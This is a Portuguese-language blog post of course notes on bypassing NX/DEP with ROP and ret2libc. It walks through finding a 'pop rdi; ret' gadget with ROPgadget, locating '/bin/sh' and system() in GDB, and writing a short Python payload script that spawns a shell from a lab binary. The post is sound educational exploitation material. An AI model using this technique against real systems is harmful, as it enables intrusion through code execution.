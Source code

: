 ```yaml
---
layout: post
title: bypass NX/DEP do CEB(mentebinaria)
date: 2024-01-10
description: binary exploitation
categories: bin-exp
---
```


### Bypass NX/DEP

### Esse texto reúne o que aprendi sobre bypass de NX juntando as video aulas do curso CEB de exploração de binarios. Aula do 07 a 14 (https://www.youtube.com/playlist?list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3)

Primeiro vamos a uma breve introdução sobre o NX ou também conhecido como DEP(Data Execution Prevention):

O NX/DEP é uma técnica de mitigação de exploração usada para garantir que apenas segmentos de código são sempre marcados como executáveis...

Ok, mas como assim somente segmentos de código marcados como executáveis??

Bom, vamos lá. Nos writeups anteriores vimos que para explorar os binários, usamos a técnica de Buffer-overflow para sobrescrever um endereço de retorno e, logo depois dessa sobrescrita, jogamos algum shellcode na stack, para assim ganharmos controle sobre o fluxo de execução do binário. Essa exploração só é possível porque o binário em questão foi compilado com a flag ``` -z execstack ``` que desabilita a proteção NX.

Agora com a proteção ativada, as areas da stack e heap NÃO possuem permissão de execução. Sendo assim, não será possível realizar a exploração jogando algum shellcode na stack, porque simplesmente não será executado (e provavelmente resultara em um SEGFAULT).

Sabendo disso, vamos para a parte do bypass...

### Bypass

* "If you can’t inject (shell)code to do your bidding, you
must re-use the existing code!" RPISEC - MBE lecture_07

Se você não pode injetar código... reutilize o código existente.


O bypass mais conhecido para o NX é o ROP ```(Return Oriented Programming)```. ROP é uma técnica para reutilizar código/instruções existentes em um binário para montar algo malicioso. Outros termos conhecidos são ``` ROPgadgets/Gadgets ``` e ``` ROPchain ```.

Os ``` ROPgadgets ``` ou só ``` Gadgets ``` basicamente são instruções presentes na memória do binário, que não fazem parte da execução da ```main```, mas podem ser utilizadas porque são parte da execução do binário (e geralemente terminam com uma instrução ```RET```). Esses gadgets podem ser usados para montar instruções maliciosas semelhante a um shellcode. A junção desses gadgets é chamada de ``` ROPchain ```.


### Tudo bem, ja sabemos o que é o NX e qual tecnica é usada para "bypassa-lo". Agora vamos para a demonstração:

A ideia é a seguinte: já que não podemos executar um shellcode através da stack, temos que executar algo parecido, então vamos usar a técnica ```ret2libc```. Essa técnica consiste em fazer o binário chamar funções da libc usando os endereços de memória carregados pelo próprio binário em tempo de execução. 

Para o exemplo chamaremos a função ```system()```, e como a função system() sem argumentos não faz nada, vamos passar pra ela a string ```"/bin/sh"``` . Dessa forma temos algo parecido com um shellcode.

### Step by step da exploração

#### 1 - O binário usado de exemplo nas aulas era vulneravel a um B.O.F, então a primeira coisa a fazer é estourar o buffer e controlar algum endereço de retorno.


#### 2 - Depois de explorar o B.O.F precisamos saber qual ```Gadget``` pode ser usado de forma maliciosa. Para isso vamos usar a tool ROPgadget (https://github.com/JonathanSalwan/ROPgadget) .

Vamos procurar ```gadgets``` filtrando por ```"pop rdi"```. Porque os registradores ```RDI``` e ```RSI``` são usados para passagem de argumentos na arquitetura de 64 bits. Para que o argumento "/bin/sh" seja passado para a função system ele precisa estar em algum desses registradores.

Rodando a tool e analisando a saida, vemos a instrução que precisamos:

```sh
$ ROPgadget --binary aula_13 --ropchain | grep "pop"

...

0x00000000004011ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004011af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401109 : pop rbp ; ret
0x00000000004011b3 : pop rdi ; ret 	<====== essa aqui
0x00000000004011b1 : pop rsi ; pop r15 ; ret
0x00000000004011ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

Deixe o endereço separado e vamos para o próximo passo.


#### 3 - Agora precisamos achar o endereço da string ```"/bin/sh"``` na memória a qual o binário tem acesso em tempo de execução. 

Para isso vamos rodar o binário no GDB, setar um breakpoint qualquer e logo depois da execução parar no breakpoint, vamos buscar pela string "/bin/sh" da seguinte forma: ``` gdb-peda$ find "/bin/sh" ```

```sh
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f745bd --> 0x68732f6e69622f ('/bin/sh')
```

Deixe esse endereço separado também e vamos para o próximo passo.



#### 4 - A ultima das nossas buscas será pelo endereço da função ```system()```. Fazendo da mesma forma que o endereço de "/bin/sh".

Rode o binário no GDB, sete um breakpoint qualquer e logo depois da execução parar no breakpoint, busque pelo endereço da seguinte forma: ``` gdb-peda$ p system ```


```sh
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
```


#### 5 - Depois de ter os endereços necessários vamos montar o script do exploit:


```py
import struct

buf = b""
buf += b"A"*88                              #JUNK
buf += struct.pack("<Q", 0x4011b3)      #POP RDI; RET;
buf += struct.pack("<Q", 0x7ffff7f745bd)    #POINTER TO "/bin/sh"
buf += struct.pack("<Q", 0x7ffff7e12290)    #SYSTEM ADDR

f = open("exp", "wb")
f.write(buf)
```


#### 6 - Agora com tudo pronto vamos executar o exploit e ver como tudo funciona:


* RET sobrescrito com o Gadget

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx1.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* O "/bin/sh" seguido pela função system na stack

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx2.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* "/bin/sh" passado para o registrador RDI

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx3.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* entrando na função system 

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx4.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* GDB termina execução e sai startando um novo processo

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx5.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* rodando a exploração fora do GDB

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx6.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>

